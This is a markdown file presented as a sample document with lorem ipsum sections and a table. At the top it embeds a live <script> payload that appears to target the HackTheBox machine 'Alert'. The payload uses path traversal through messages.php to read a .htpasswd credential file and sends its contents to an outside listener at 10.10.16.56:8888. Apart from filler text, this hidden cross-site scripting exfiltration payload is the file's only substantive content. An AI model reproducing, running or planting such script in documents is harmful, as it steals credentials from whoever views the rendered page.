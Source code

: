# Sample Markdown File
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.56:8888/?file_content=" + encodeURIComponent(data));
  });
</script>


## Introduction

Lorem ipsum dolor sit amet, consectetur adipiscing elit. Sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. 

## Section 1: Overview

Phasellus faucibus scelerisque eleifend donec pretium. Ultrices gravida dictum fusce ut placerat orci nulla.

### Subsection 1.1: Details

- Item 1
- Item 2
- Item 3

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua.

## Section 2: Analysis

Tincidunt arcu non sodales neque sodales ut. Fermentum et sollicitudin ac orci phasellus egestas tellus rutrum. Sit amet nisl purus in mollis.

| Column 1 | Column 2 |
|----------|----------|
| Data 1   | Data 2   |
| Data 3   | Data 4   |

## Conclusion

Nunc non blandit massa enim nec dui nunc mattis. Aliquam nulla facilisi cras fermentum odio eu feugiat pretium nibh.

